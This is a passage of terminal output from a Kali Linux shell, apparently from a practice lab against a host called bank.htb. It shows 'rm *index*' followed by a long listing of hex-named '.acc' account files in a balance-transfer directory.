 2ca3519fc00af7c9d63e58b9df82d4f8.acc   5e2554c58bc13c6398bfc3bd3b8bea5a.acc   95a9ed9af4c22584f165f5b43520b377.acc   cfd0c07d32c03e6fbe670975fd0f7fdb.acc  'index.html?C=S;O=D'
 2d07d6a5015dd654b4ca0f32a51906d5.acc   5e496ac0ca6259ee6ddd18c7e784c4bd.acc   962607e2656d81d6dbf9d1a85142b144.acc   cfe327744712bc2caae9328329112b34.acc
 2d2ef1d233841341c13d2d8938cae003.acc   5e80dca0989d5f4a076146f7aa859c20.acc   9654eabf734023323c0fa3e8ed894c65.acc   d0149e8a6c8fc1b1283bc35287e43c16.acc
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer# rm *index*
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer# ls
0016a3b79e3926a08360499537c77e02.acc  2d07d6a5015dd654b4ca0f32a51906d5.acc  5dde5175da535b073504fa6222da07af.acc  9485920a1460f5b8a5ce891e19c321a1.acc  ce761813354f67a658f53c621777bd84.acc
001957ef359d651fbb8f59f3a8504a2f.acc  2d2ef1d233841341c13d2d8938cae003.acc  5e2554c58bc13c6398bfc3bd3b8bea5a.acc  94b434c6fe64eb8f08f50bbcc4f4fb57.acc  ce7a7abb6f1d6b0fef7e6528840f9215.acc
0026d872694cf17e69618437db0f5f83.acc  2d9e6682bb5f480978b1a8f61d375bd0.acc  5e496ac0ca6259ee6ddd18c7e784c4bd.acc  958753e5d8c5896a5570dd1fba2c2f11.acc  cf011a47599e848a6be54aa867f37ec8.acc
003e8ffc123735afbcc7b219851d45c3.acc  2db5f802521a622c4cd64c83eddc07d6.acc  5e80dca0989d5f4a076146f7aa859c20.acc  95a9ed9af4c22584f165f5b43520b377.acc  cf17562e769f00fa2d4c9b06002ff565.acc
005953d5f1fcb53ed897063881a91e00.acc  2e080ba377f32a78b84231e25673d519.acc  5ee81d3848dc565d16f84b8023c78d35.acc  962607e2656d81d6dbf9d1a85142b144.acc  cf436be4e3d4d42361e1634e2fe7ffc3.acc
00895e6b8d2389faa6cf736388dd6907.acc  2e5192979d89746230024fb2af498237.acc  5f50c17e7e3ffccfd65721e30808a54d.acc  9654eabf734023323c0fa3e8ed894c65.acc  cfd0c07d32c03e6fbe670975fd0f7fdb.acc
00a929b4f7ece04c5da8fac8da8370a0.acc  2e5bc9bbaa7e60b1bc88c5ffa46b47a5.acc  5f60a464918c3d8d17940fdd31dd487b.acc  973a3382433a21d7bdb1cc0f8f813f83.acc  cfe327744712bc2caae9328329112b34.acc
012713bf9cfc1e5adfbdbc14dd32a1c6.acc  2e8783c6f4ceba1ca5d9f091a7a3f319.acc  5f632234377f9af6442ea29d8aff30de.acc  976358d4677bd2938987d334bb6f283d.acc  d0149e8a6c8fc1b1283bc35287e43c16.acc
0130afdc7d28350eaa7018736d8e75af.acc  2e8b4d1333646e8ed98637bf1793c78e.acc  5f83801c9d2788e006ac5878415aa113.acc  97b93d510fb8e5946d975d81a53562de.acc  d033c9d931824ff9e2c33961f02fd458.acc
013fc67de873fdc3f001a3c8fd6fb252.acc  2ebac37c664663f382ddcf74c9295289.acc  5f9de9bd6cee286315cbe49e5d31c2d0.acc  97cb4404efbed5404dbd3c1023f226e9.acc  d0800a34462bed11d866ab5f06ba675d.acc
01a13d9db1b513230047f8951f5ee426.acc  2f3cf398674340a1c3959e6ce1a4f902.acc  5fbbd0af8aff8f966d119a7de8e123ac.acc  97daa2d02c5a4c6a68f81f6e7196a9eb.acc  d0bdf3f0e1cbd9a34ffe788c2fe58a3b.acc
01d537afce94cd70b6dc734db310d34f.acc  2f6db9d426117b3921668d15c3667c7e.acc  60ce46875da3a71989de7d5ff4aea73a.acc  9829ce4147ce5ba39e4e95ddb7254b73.acc  d0bf290f0f579a5517ee798f2ff342c1.acc
021d32498ed3715cf0cfa4cba3233de6.acc  2fa45e4ec782cc8a067941b8a4e4eac1.acc  60de900180b1e32efcd6fddeeaebfdb7.acc  9833b80712e7a1e77e86a2dfbaba8278.acc  d12bce7535862f5cb291a7ce2c28a3c7.acc
0278047e279b4b7affb284d5d27fff61.acc  2fb844630d50127f324bf0734046bc56.acc  610fa1e1fd8a8a74b5da05a6c029473a.acc  984c8ac0662b0368642ddadf106bd1aa.acc  d1a0513c49f6a3e5ac20be49f84d4366.acc
0285de4a0d1ae2cae6d4d2be03c71ad7.acc  2fe3b2cc3fe0ed617e7650f7a09aa7e7.acc  616058320a920bbc1078572b9f1b6b70.acc  98a9d9ac52319098a6ea778e6ec559ee.acc  d1a3a981955f9ca90f71169e2ed36f4a.acc
0298cb464791ff4a6c5447114fb4bc18.acc  2ffe137ee7c65733590febfbfc5040ae.acc  618a6cf12f8be23f4f425129f4487c53.acc  98fdde8e57f46c48d6f8eff627c7bd6d.acc  d1ae912f2a39c387da14e93824a8dc55.acc
02ab56265052fcbffa94aa8868955809.acc  30033ed5c2aedb6b8e8babea24612974.acc  61fbc3bd099c1b5bf6abe0df0246863d.acc  998dab6a74e39fc6d830d3569c9eea50.acc  d1c0337cacd04b40aa41ad9673ab6e18.acc
02e28c6da52d30a3d4029c4fee24a627.acc  301120b456a3b5981f5cdc9d484f1b3b.acc  6218cd1ca8743a36fabfc189c4e3288c.acc  99aad93853d637ada481588dfc223c56.acc  d1edb87cf8ab7428f6516d4aa6d4f810.acc
03051d2fc082a4486cefc8e4f3aef886.acc  30a392f1433bd45a4bba176dc97c9de4.acc  624ab87c34e95964f842598d2a5af800.acc  99b73c36a3f627bca6cf01689505081d.acc  d202a0e5d499e5de951e2bd0f89c1561.acc
03089964c6d31d512907f2fd2547d690.acc  30df9189d0b3eeeeac5f691bba0fc293.acc  6272e6fde32336fbd46ce0056234965b.acc  99d49fb7fc00f549eb036dd473964ca5.acc  d202e77cc1f248507e2762f3d94e7700.acc
030af0ec1428a8fe5a7eaf9e684941e8.acc  30f837801133d02bad7737387693fc77.acc  62a7e0ad3a6040bd58bf74b27912aad3.acc  99fca069a084b394d4a54401008c0651.acc  d3a36914dbbfc27be1850c9ff96782d4.acc
036aacee702e369846c184cdf374912b.acc  311b41a1d40429482b14e395f56423cb.acc  631a75b70b8724266b9c50b79a66f580.acc  9a885af05f71935ae8fb9cbbc07f6c57.acc  d3b32d2462d7cc342c873eb5e446aecb.acc
03a6a13a7c61cf6bc7753d4c2d41d6d8.acc  31352ca79f8973c646dc89434f91080a.acc  632416bbd8eb4a3480297ea3875ea568.acc  9b18bdcbae98a8fadfd7baadbbab92ac.acc  d3d8504e9030c7a62c9a753975edee61.acc
03c158aca0eb3493b4730ba5ed0d3a80.acc  3154e6528069850adc415ae29414f380.acc  63f56536ccbeb53f86180241feedb579.acc  9b1b85b68b76774b9e97f12d4e685297.acc  d3f31422f7626f223f0566cff6aeb214.acc
03f08dbc9f58c93aea6413111787bdeb.acc  31553a37be725d7b5d1add5acae714f2.acc  640087eae263bd45eb444767ead7dd65.acc  9b38ac5ba7ca3e908bbc52656963ff1c.acc  d441f15b2a3476a27e293baf3d0ec05a.acc
040a56b78a97b8eb348b5f205d42de7f.acc  31586fb5ead11d90c96bbdbb463dee21.acc  6427c41c712d10bde42c5231a058261c.acc  9cc34a3225e3d56ef6ca75d48d1bfeb8.acc  d47cf16a162cede027eff16290df4b41.acc
04488e1db8e68fcf67684b78504f8f2e.acc  31c0b98fc822defc124dbc16bfe44333.acc  64cc0529536e5e6c7a99716743e8736f.acc  9d1ccb2a318fe144d1787744870973ca.acc  d482e381c5eb43f1926cfb3a246e5bb0.acc
04671617d7bd3af5683a770e02f9fd56.acc  31d7f7440558b43d32b40a3927724fff.acc  64e321bd2ca29ce92f8794d070dc610a.acc  9d7bfd31b36dfb3819bfcd38d2a2a6da.acc  d53b97a0d345159716ed03541ba999e8.acc
048ed94fee4e036472a1bdb8795a3aef.acc  321d724386f8ab165f68fff922ee79c3.acc  65733941cafa352d30dfbdc7580d023a.acc  9da8237625c9c0415c890bef3ba6ebc5.acc  d54532bd2e68a899fff5dad8bd5db8e8.acc
0493facd8932d18d6657c7dff0bc151c.acc  32203b71b000edd1b90258a14bf28a55.acc  6575141b4812a7fef638ace04b19d0c7.acc  9de044238ee025b4a846affc64cc5233.acc  d5cb9f617e1a85d3b82222655d8b9745.acc
04bb6e0356b43d31d25277a4fa56884f.acc  3293cf3299da33ed5e173453e98bab68.acc  65c2e22dfd5c3cd4ec160c641925aabd.acc  9e2946901fe6cb9fc604a12d18db1722.acc  d63d28ffe1c777e4039aaa44f38a9a80.acc
052a101eac01ccbf5120996cdc60e76d.acc  32bd197fe15d5ac657a7789f5adf672f.acc  65f00eed6eb9cc15e2bb8fdce2fb12cd.acc  9e46683ea1755a3751709b04e37571e4.acc  d64498c649d007c2550b893b875491bf.acc
0589423587b67002f0a64101e821ba18.acc  32e89b9885e8e2c7c3bd635bea89fd0a.acc  66284d79b5caa9e6a3dd440607b3fdd7.acc  9e714e03d30847b9faa6f7f34041a818.acc  d6e92e084ca622a793ed7dd522d5570e.acc
05f064ba91479a01e1b9456afa6e9b2f.acc  32f6724fef117c0dc2de8e69180bc7e1.acc  66c7b098bc08fc357766252f3f3e8051.acc  9e91dd7524e1a9e54af255b02eb3f06a.acc  d6f925ae367e2dbcd8b918ede84fa6ac.acc
0603c831aa543636b14c9047ab65ca73.acc  3313d744daa87043953a44fbb65b2981.acc  6700bd647e3c7f1a577ef7335b64e92e.acc  9eb94f160af437fe9df9da2416072508.acc  d7cd6ee61bf1652ea1cf0a34291edab7.acc
06a0b516439755f9b849a2d060df6ce7.acc  33baf312460423d88dc681c5aafc0b0a.acc  678e183b3178e7921df2a5a7a3a5778b.acc  9ecf16cf62123f6cd5b5cea0f5864497.acc  d7da27efabd1420a998985b595a9e3e6.acc
06a80cb247151573c2731863af1e0f3f.acc  34457654bf404f9419d68bc8c6f580bb.acc  679d6fe1e0d242f848e3f919d8c00877.acc  9f07f9526589a189370b73a3b29a4d9b.acc  d81ff44224e6f0af034c595cba2b9197.acc
06cc59f58d34941d93a9f7daa54aeb30.acc  346bf50f208571cd9d4c4ec7f8d0b4df.acc  67c1530e6d052befe61c27c7935f710e.acc  9f0c5a3cc09e7a3cd0debffdee919bb8.acc  d88b183a0b7a477c5f7f38649aef54e4.acc
06e5ed6835032cadeedd8cbc2525c1e8.acc  346dfb647268bec0a6e05bd60647b6e6.acc  682bbcc46c90afb5e2aa6feb361ba771.acc  9f3c06e35412753ec225c292b7cbc0f2.acc  d898f1f579e3c074ae703acbf1f7ca64.acc
070a07a40fcc8c5f6dfbb0f16f6917b0.acc  347c3e55d7823a9758de01598aa33f2b.acc  68576f20e9732f1b2edc4df5b8533230.acc  9f6357464ddc2017fff1923f28835cf7.acc  d92f85304c616afc75cedc569ec95449.acc
0765aa4c97f0857f49921bc32281f6e5.acc  3491e73a84a342b518cd7c7df3e5d6a2.acc  68c3a3ac26417379fcc695e14aa36f51.acc  9f936f11fb62fc8b30e3d86ff7c0f8cf.acc  d9cfdd2f403feb188165f66e93f1f0ea.acc
07dbd94cf3a4b07d4ac13d0ed5573cfc.acc  34df994940887200e952babc211df6f3.acc  68e1781b0492331302362108c6ceb81d.acc  9fb8117ab5d757240cd6ef209f85471a.acc  da792e19873be561b9410bec2e43cd0d.acc
07df2d04959d3f89118a7994d52d002d.acc  34ef76485eadbb67f83a4fb1fef184f8.acc  695cc486245e700b16b43e258ce15ea7.acc  9fe63f9d1390025ee2e3c735c1a75082.acc  da91d518d1fecf7334ab95fc97930324.acc
07fe9d5980ec8dd731bd1cc22efd6bd4.acc  3545c87f1008dbaf5d6e1faf365dc00b.acc  6a02166c0d69d4f4a81f0e773923da2f.acc  a19983a3444c9f01bb4afb8f985c92bc.acc  db89b8312d552ed200d5f232e929d226.acc
082e4bdf27365d8205490fbe36bb8028.acc  366d5953a9b993d1abec74d4bd4f47f5.acc  6a8727b0306a2efbd5eba6f4026fdf6b.acc  a19e0c370602300554e6a997b9dc91ad.acc  dbb9aa3c08cf691b8c020742d28a5126.acc
0832c922148dd0722d6da8d1f438da1a.acc  377af4fb3c552283d364e04bdd45a2ab.acc  6aeaa4873136f7d21a3ba00fe3a4bb40.acc  a1a96ff9ea385289c05d16230b509aeb.acc  dc38c8982f3e8c33505fd71ebbb83493.acc
085349be3fa3df64b0fc3f2c8a7b95b7.acc  378be8c1fedf59f60349f6bad4b7db95.acc  6b23ae70d9c694a8f43b0ea455f33223.acc  a27d0aa5e218c89d734cd7c169f7f4f9.acc  dcbcee36c8e9921d457bef60536010fa.acc
08cc112526d390bc424e7b4b01848e7b.acc  37eab7fc827b5398e708fc8d9bf96adf.acc  6b5e880f00cb0a06cc7bb8883ca4246b.acc  a2881d3dd5ee59e95e3ba1265b2a68a2.acc  dd1ef498f9168afa3a998bf521c86bdf.acc
098bab0276720c1c52abc420af43bd9d.acc  385e8f506e4d16fcb3b4f04cb2134bd1.acc  6ba0c8a624ae32999847adb2b217017e.acc  a2a532abbf06c0e084f508b5f14de219.acc  dd441ff68ffdd5e483c54b22d6b9560c.acc
09ed7588d1cd47ffca297cc7dac22c52.acc  386fe978dd93c84898ffed478ddfc479.acc  6bcd10214c86176e8c810b179f87ccf3.acc  a2e24c98892ca93d1201c80f42c994e4.acc  dd72dfee0e8914682822bc675abc1c1b.acc
0a0b2b566c723fce6c5dc9544d426688.acc  387aa6875b5e6c7225e120ef577bb484.acc  6c0925ad3a766771c79e7337e33a6d8c.acc  a2f5e3d1b3733a1a40ac6ac4bd7c2182.acc  dd764f1f57fc65256e254f9c0f34b11b.acc
0a0bc61850b221f20d9f356913fe0fe7.acc  387f8c91842b29f0596a433847400d68.acc  6c2baf5043cac2a7bd0ec8ba8067b45b.acc  a3009c3a4e00b5c5c760f7b43643bc4f.acc  dd8b35539e6e28b7fca7e16ed30346bc.acc
0a2f19f03367b83c54549e81edc2dd06.acc  388a6d78ca9a5677cfe6ac6333d10e54.acc  6c4fec2702b25900b66379a02b54ae24.acc  a3692632944476a25b92d486c17c6962.acc  dd98b8e773842caceb3dfd65807b96a6.acc
0a629f4d2a830c2ca6a744f6bab23707.acc  388bd4708d5399f3b57f01b743d41be8.acc  6ceca1d2b3c6a95ece973b660500db6a.acc  a398fabe8a9cf8411e32841e10f64dd6.acc  dda838ffa97c73f9b23635a3ea2af089.acc
0a9014d0cc1912d4bd93264466fd1fad.acc  39095d3e086eb29355d37ed5d19a9ed0.acc  6d0b2f0cd5a45ec822d779f9ffb1653a.acc  a465e6dcb80571d0c1a4c50656db1e3f.acc  ddba1881bb08a67296da274255327295.acc
0ab1b48c05d1dbc484238cfb9e9267de.acc  3918cc808d11bb1c24df866cc0e2a69c.acc  6d50c71fb7435ebbece559a5a3b536a7.acc  a4faa925a6f8d2c6027d5934cea9a103.acc  de05536aaad7fcd48213d4514d4e86ec.acc
0abe2e8e5fa6e58cd9ce13037ff0e29b.acc  397bfae2d17164399945b7e8e5630a86.acc  6d5d247ebfc4795d2c83676a43e88d1f.acc  a53a4eaab8be6c4b8569fd407be54287.acc  de90b8a1ab02fc3057c6bcae023994dc.acc
0b45913c924082d2c88a804a643a29c8.acc  39f65afc6e443a171c30bf66fae63db1.acc  6d9666eac9b05c37d68cbcbcb24c7609.acc  a5ae203a96c1b48cc51f38e2113b51e2.acc  debb6ca8f8c2d3111b3075318baf47fc.acc
0b59b6f62b0bf2fb3c5a21ca83b79d0f.acc  3a33c5bf7ef7abcf81c782a79a43d83c.acc  6e6c81b5d36cda27b14bf5bb52888625.acc  a5beea9b526e1fa0916a2a1c2297ad14.acc  df1868a53af00d00adcb968329cba2cf.acc
0b6ad026ef67069a09e383501f47bfee.acc  3a682bcef6c37e5541e1fb543fa966b3.acc  6e742f8451c5ec6dc5f531a390c97b7b.acc  a5d269a562c49d467a5102643bd35a8c.acc  df3bb08355a9cf43ebf38c0b56572f24.acc
0be866bee5b0b4cff0e5beeaa5605b2e.acc  3a6cd651f5316bcc9794b1aedeabd72b.acc  6ed19aeaf42959eb8d96b7eb29e5d3e4.acc  a5d757244998b2d9ec1d9b88da0c17c7.acc  df6f4c539f4e65dbab41c8d859d716ef.acc
0c04ca2346c45c28ecededb1cf62de4b.acc  3ae7e40b423769e8829056053be4b770.acc  6eecbc937801fa028da31d0323077a86.acc  a5dd7a85f0c5aef27255defb4059cab6.acc  dfba0fca0f256dced2045954d288dc5a.acc
0c4c9639defcfe73f6ce86a17f830ec0.acc  3b0b0922fbcee3da3c6b7307bd1bb75e.acc  6f3d197021dd9b9a089147483e317263.acc  a6012bfc5cbd982890ccd874df0acb63.acc  e00ecd8f4f080b2f004469ab977557a2.acc
0ce1e50b4ee89c75489bd5e3ed54e003.acc  3b44d9cbc04be9fb5f1a63e666203815.acc  6f697ea29832716004b565b9e2a974bb.acc  a648c7b7032a91bf38440a56b7f1bf26.acc  e0144aefd0efef77f6e22ccf0184be7a.acc
0d3d24f24126789503b03d14c0467657.acc  3b823513d5f5255facecc595b6c20c41.acc  6ff05fe0459f5a96fc0f65ee6a70d5cf.acc  a6566c5ba56c080595346fb4f75175f5.acc  e0acada8ebe2e71f0f2fb11f46a615ca.acc
0d64f03e84187359907569a43c83bddc.acc  3bb925999bfe2f00e955e35ae5c45acf.acc  7053af4bcb72fce3b093fd4847070f29.acc  a675e030fbf19a997ca2a03c096c7162.acc  e0f6f044cfa36d6e376e2c4d51e19c51.acc
0d76fac96613294c341261bd87ddcf33.acc  3c03e292162c87b33e89e7c34a7a2d70.acc  70adef1fa6974f1fc074f669b5f5228f.acc  a676fde116361fca31ee46e2568e0ff8.acc  e11afad2d397447c713765da5455284a.acc
0e5a884b0b23e98446c460b4dbafc3ee.acc  3c573c41d23c5c5b9ee8c2907d079697.acc  70b43acf0a3e285c423ee9267acaebb2.acc  a6a253ff3c0058a8218eba01acddaa38.acc  e131f1ebe2dd1c2e94bd520c453c6fba.acc
0ec03beb3832b05908105342c0cc9b2f.acc  3cc285ba7c9ab83973717b64f690d3e0.acc  70f0b318435ade66c82d93bb770b6ced.acc  a710f853274ebac3bbdfa39d1498b131.acc  e133d908180589eec9ccfbea70d741d1.acc
0ec280c07bff51e211f18118aaf110b4.acc  3cfe8573c12153ad69e3ebe9f2451783.acc  70fb7ee7eb269c313db283def6ab7d09.acc  a75e327f24e14d77509c39cf53c2eb9d.acc  e1c22573a63c4b2a458b50fe5952dfbe.acc
0efa8fd313b2a59bb07e8a656dc91412.acc  3d3e2799ae9dab5057b9ef7dc66138fd.acc  718772467ce8bd9c269aebb2e25ebd2f.acc  a7c061a1de903c3498d4a96242d16244.acc  e1f3df4623fdd06b5e73b0638e746d8c.acc
0f2b9dad0ad001b9b14d64112de3fbcb.acc  3d5e1f376f09b7704eb9309448db2320.acc  71aae80069a4da7645691daa3d2c5377.acc  a80f454ea328eeb74bc50e0c2af5c33a.acc  e1fc90a1fcaf755f7d87642ee8435aff.acc
0f6f890eddff9b4cf0deb3269ee0a358.acc  3e15fba8222b4257f517f73ffa6e8dbf.acc  71c6d088ffa6532bd971a94224142780.acc  a909fd3d565cdc5e67c7b25563733b3a.acc  e21c913c872e02ae81887b8acc747d42.acc
0f8495f20c0711377b9d082d53280d3d.acc  3e4c7ee45bec4977653fa1ff687703a4.acc  71c9fffe15fbafc620deace20b7c5eb6.acc  a9304d76fefb2a8b05e7e33bb96c5e0e.acc  e2460b444421f0c740771fb06d3f5383.acc
0fddb291b4c92a91d97d9f148dce4371.acc  3e7269a8cbf32786733aa2073e29d867.acc  71e11c0830a96debe4d53669c6cb6149.acc  a940beb305934c9e105340f21528b1e4.acc  e260b48878509a1e12abb7614b1dae46.acc
0fe47df5c5dd6fed071b81c5ccfd29e2.acc  3eab44115dce3fcadf150d7e98e2f456.acc  71fb6e8200897f051710b9eca09c1957.acc  a98fe279ce82b3e7566be14540cdfd87.acc  e291abebd339260825783fb4c3a308ad.acc
1005c4b820f30569e0a8e290f2893299.acc  3eb4295fbf0b2bac4aa20350246a6b9d.acc  726a000b87b8e3ae49e2d0039a216fc0.acc  a9bf73c62737a6c16b95651c046fe3f1.acc  e2dae8ebb3b4324ec60ea862147d86cf.acc
10805eead8596309e32a6bfe102f7b2c.acc  3ebc66c0b6e64c060e86daf2ce4c9a31.acc  72b4c66c76496c6b042719aeb851f526.acc  aa1460476704c4ab045ba3583b34a319.acc  e2e0c84c82bb1ec6e2ed2e47c4b613fa.acc
10b8b7b1713f1dca5ad72ea3ebcab475.acc  3edf797d706622fab4a57ba0a4af704c.acc  72d21e93a5b484619d0a6393ea54d76f.acc  ab184ebb41fd49201e47e6d9e7995c0f.acc  e2e5811258574d046e14dcd3ac2c85bd.acc
10df9dfe748997d7bbfb5d64cee284b9.acc  3f3b9ba3a75e23bebe956760fff45a30.acc  72f6e953d2eb1efacaef199dc21aacc1.acc  ab4e2a922a7f3a3c8600276866e05a4e.acc  e321164b6a58b2bec20f5779cf81a035.acc
11c1ad9b01c6654be1d995a09a9f2f3b.acc  3f5377ebb31e50606f0d2cef73f49130.acc  731d836d632dbe827ba83ed1dd904e46.acc  abbdef22ad2cd61ce2b88efdc1fd4068.acc  e3c644269174eb2836bc4fa382949bac.acc
120456185fa840aad81c6ea38b9f70d7.acc  3f7dcbfa9956edfc1c680db5f56258ca.acc  73e4380e5ede97598e662531ed11a5fa.acc  abcf40e21740a1c04a9a3566497c0892.acc  e48560adbad98be98b7ea385132daaa1.acc
124a5db27699c0e2a3480a7c091bc128.acc  3f922da04764d314d9ad4ec29bd24ab7.acc  73eedfa54a99abf8c4223588741118f2.acc  abedece2083ec0ce5bfd9b8287073e1f.acc  e4939066a31bb3791e5090eaa126b578.acc
12c2d8fb0ed8df68972e2fe4dc5b4609.acc  3fc4b2d139b8ecbb0bec75345aeac132.acc  74a3863d401f4876b428bb498974a8bf.acc  ac2916a043bcbeb801691afed44274d8.acc  e515f0b553c041958bfefc737a7a9be7.acc
12e8afda9f95bb015ffa5c1ef3d503d0.acc  3ff2509d974c2f4e36d87dcc7048b4d8.acc  74a61a46248d4caa926e1938aecc6534.acc  ac4f23bdb45a02602a6501e28993060e.acc  e51cd1e8e3b38e7491b3a2bf1d54cb85.acc
12eb6b074fcf0adfcf0274fbf0947edb.acc  401c55932f8f4fbc27765e3b5dea3358.acc  74dfe9c8d9defeac563057852db6c94d.acc  ac4fd9384634602b2d74305a18648577.acc  e534ab97fa5fa6f90508261518af6761.acc
1308cb859a75a2b66d72b3a36ce87ace.acc  409a24500afa25affba8dab727925942.acc  74fe6e35b2588a89adfd936a8b458a53.acc  ac6d61e69c240fe11d6ca4b6acc35aff.acc  e545f6be978e341ad0412d954c6f5181.acc
13394b7bf1e2ffb15c94045398826b52.acc  40e87fd7e03b66cbc81f8212c842d851.acc  756431ad587f462168df5064b3b829a8.acc  acb4ccb8eeb778b614a993e7c3199e5b.acc  e5608acb3cdc61bf03e76ba0eec6f144.acc
1385939e3f7c5d728fbb1a665e5fe26a.acc  412c6df90bfa3a0d05fd7d8ab790d376.acc  758b39c317821013b180ae057bc16d83.acc  ad16aa80831b4fba1439ac9e5f0103c2.acc  e5d105066394c76b47ef9b0c13d1e702.acc
13b790b817ceda1763f695cb4b1151b8.acc  415e625085a1dcba383d97d16e9b2447.acc  75942bd27ec22afd9bdc8826cc454c75.acc  ad363144b53172d66bd24dfa575d4915.acc  e5e37effa0bbb08e71244ea3fdbf135a.acc
13c0e6b11cf2b1525d38143037cdcd51.acc  4176c547af366f716c6ae37755304425.acc  76123b5b589514bc2cb1c6adfb937d13.acc  ad4704e9fd044a6961dc222624127732.acc  e65e4788185b3d1ba4de7cdcd3f3a5e2.acc
13d91ebcbb1af4df0bf8a82fd3a71476.acc  41bc81ccd65b5ae21f181bcdc60a6c62.acc  779a7750a1723d388731bc20c6b05b35.acc  ad4bd9527fb35490c3c8a2be078c2b3d.acc  e729ba75c2e61d75052983668155a494.acc
141d68e343b77ac020de3087e3efbf3e.acc  42261debb6bdfc4d709d424616bc18cc.acc  77e580bfc95b1c0a89fe3b886dd961f9.acc  ad608d995d60e704cb2f8bb0c9c8e526.acc  e7ceb9e11adb90e143e236cba4699893.acc
1458d8c0b03eb55944f3928fe45c66d8.acc  4273dec45222434c96a4ebae56a3c840.acc  7804840b63cad3132d2a222818e34766.acc  ad7cc6e79ce56c437a13246ed6c4d5f8.acc  e874f65408cc3005163954b8b31ffeb9.acc
146e50a62df35e5cc05f0e644f1b4c87.acc  42c5d406ee86e917bcf4cd83d254534b.acc  780a84585b62356360a9495d9ff3a485.acc  ae364452981dad5efa2bed11f58b67ec.acc  e876afc6545d55e0d1297fcd95b0d334.acc
146e61f82b0174bf416c2cc895e27136.acc  430547d637347d0da78509b774bb9fdf.acc  784e81b0f924ffc73318724185f5ba0c.acc  ae61679e003671db4ef71b3e08e51c6d.acc  e9006b9e02ca5e2f64b4a6c1b88a6174.acc
14e30bd14c29ccd86b16115784f405f5.acc  43c8b7a50ddfde5aa5fc736406c72423.acc  78a312e0b1ac485db1b5a00393f55994.acc  ae7f70db2c5682cf9d232915fbe5120c.acc  e90fc06918e95e2d0f4a32ea178f6f85.acc
151b3d396f2e1f6f9bafd75e37fe90f8.acc  43cb4089654f49c1894024af1d79239c.acc  78e242e6d759c6e35520071b33f00e97.acc  aeaa050edd55f9acfdebbc6ec4565e06.acc  e96eb0496f9f3f2187a91d47cc789c5e.acc
1557e069780d9eac7f88a6e10e7cd90b.acc  4402cb07ed0509855526702a4ece80f7.acc  797e1abe1c99424aa7856f6c9f136cfc.acc  aed357b751b161f2baa30f1a6ffa94d8.acc  e9c21e21078cca67470688fd9750e35b.acc
15a9158ee078d8a058736267caf8b910.acc  4476ecd1835548a4ffcb4de3feb21035.acc  79b96225cc4705c9d7f4630f1482b6da.acc  af03037070ba16f49629e8fceae67101.acc  ea664b6fac225604ad4a76956a84de4b.acc
15baa7e6a3b477fc3d6b9567d2a71c56.acc  44987d36fe627d12501b25116c242318.acc  79d260a20a4bd04419979fddfbb490aa.acc  af506ba8430038b4c446610b7afeca02.acc  eb439f0ed2edd4a1ca186ef9c868c547.acc
15f5a217c839e4f6ef0cc46dc01e494c.acc  45028a24c0a30864f94db632bca0a351.acc  79f06acb23f58e97899738c1b32e0968.acc  b086c5383d5ba5f9fe55bcf2879d4494.acc  eb4d3f88032008b4c9e25b0c5410279d.acc
1634428ff1f73afb7db9df3e21a99b54.acc  450c1b14e8b20b29b1fe9bc23b1f2878.acc  7a16f1be3e1cce885b855e888d413617.acc  b0ffc7ada9b79d0b507d99b67a3260f6.acc  eb6069bbcc072e4748cc76e564634cb3.acc
164c1839f2d21dd77bff5a7933087f4b.acc  453500e8ebb7e50f098068d998db0090.acc  7a2a9752443f4328dbb9a5f4431b1f94.acc  b117c5fddba8530b339c9a8da696ff0c.acc  eb9062859001f9d14e9d2aab827f27f6.acc
16a2ff45c69de2df023ca9dfb2ce12bf.acc  4586e7414d7567f91f965d8eb2647a6e.acc  7a3062ecd98719e7faac95a4efe188ee.acc  b155ec440c9934e68335882bf9bc87a4.acc  ebb023e25c2d0714109c21850d514234.acc
17115b9167f94b0fc8de6a075f7a7c3c.acc  45c816e15e480fef2ca867297921cae1.acc  7a323fcd47afe7cc6248f2fe6e4f8802.acc  b165bbdb365c838e73b1a2d667b6fccf.acc  ebdf24181447b673a3bd7b10867cf8d3.acc
172bf2c0394fce86f60e75170afc8f9f.acc  45fad7b2ebd71ee55663f9d4c25d1cb6.acc  7a6c81c0e6780f912586590a9bb3d4e9.acc  b1732eb5066d19f0d4f2e4a2173b51d0.acc  ec1499b623c132d074c2d81071fedc51.acc
17d462006481467102be11a86832691d.acc  46fcd5bef075246c7d2fd444b41745cb.acc  7a747011ee218e9e45365c3169a24754.acc  b1a06fa15fea8df052eb0efda06239fc.acc  ec4b903ebc21e5d0174d299a785b23d0.acc
18bf04910a0623a4c2d6287341b53ddb.acc  47171c38422e049e50532e6606fa932d.acc  7a7a849d65b57600abea91bb986bdee6.acc  b1ab8c16c5300a1fc00907310fe6498d.acc  ec57cda985748265567eb5ce65cb6ead.acc
194f2b25230c4cfcb7c2092a006502cd.acc  4720f8f57866d9631d8d310093883175.acc  7aaeca9d4bb6725b0616597a393a3d7d.acc  b2007795fd0d31d65ec16d2cc03b62e2.acc  ec60ca862555223fa6d3407485665ae1.acc
1967bd76aaafed760132a851a3d7c8d6.acc  476845627ec5658e15864a7766fea705.acc  7ad216b66bbc8be33e71e9b75b974398.acc  b2379715823c2d101d66b2b750d7729c.acc  ecf30d100c09f82894def7e49bbde2c8.acc
198007304d3f3413936f9634ff44573b.acc  476e02d55e6e34295af15309d47acc49.acc  7af56b5821f745df33ba3a5fb0dd7009.acc  b244aedf4f40a73e2ba94ca019c11765.acc  ed64d19c83fa8a673b9613f18d072095.acc
19f06120f156391687ba9625de702836.acc  47a5b5d54b15c594b0d41ce20c8fb113.acc  7b38a14ce39bdd4b91eb69ec02a81f84.acc  b25d37c6adaa929438e2906e99c9bf10.acc  ed78f0a148d4320566e799bc2b9bd6a9.acc
1a419fd7740a76ba3124528ff0419624.acc  482e09bc32d62b29b51c9d21a173ec14.acc  7b7cc0505cee71ab02c533fd2db29cde.acc  b25f88734c195eac61678d0c1f9eaa4a.acc  ed7bb2476880c9f74fc6c84e9bae3d12.acc
1abdae025e433fb00a8c684a853c191a.acc  486d802595c5498539495b30b658a974.acc  7bd2b3a05795e2d216cac59bb405f079.acc  b2b92a76037f5cedcbddb2cf8922b584.acc  ed8949614be8827cfcc3641f7cf6d84d.acc
1ac6533f614e99cb74d2aaf00cd1b1e5.acc  48b68e11c3d8416e5db820f8dce9a1cc.acc  7bee4f51ff23066e9e909ac84873e9c6.acc  b2d9f5c9658426b86efd70046ee8471d.acc  ee0e53c02d3af32a41b0b0db18110a71.acc
